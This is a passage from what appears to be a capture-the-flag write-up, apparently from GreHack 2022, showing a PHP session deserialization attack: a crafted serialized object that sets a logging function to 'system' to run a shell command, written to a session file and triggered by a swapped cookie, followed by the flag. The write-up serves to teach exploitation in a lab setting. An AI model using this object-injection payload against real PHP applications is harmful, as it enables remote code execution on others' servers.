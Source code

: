 The serialization format of PHP sessions changes a little bit from the classical formats, indeed, it is in the form :

```
<nom propriété 1>|<valeur>;<nom propriété 2>|<valeur>
```

This gives us the following payload:

```
email|s:20:"worty@grehack2022.fr";lastDownloadFile|O:17:"ControllerCreator":4:{s:4:"page";s:0:"";s:8:"log_file";s:26:"/var/security/security.log";s:8:"log_func";s:6:"system";s:3:"msg";s:4:"ls /";}
```

We have to be careful here to use a defined email since the exploitable part where the deserialization is done requires to be authenticated.

We reuse our exploit to write a session in /tmp, we change our session cookie by "wortytakeover", and we get our RCE :

![rce](images/5.png)

So we can go and get our flag back \o/ :

![flag](images/6.png)

# Flag

`GH22{4rb1tr4ry_f1l3_wr1t3_t0_rc3_!!}`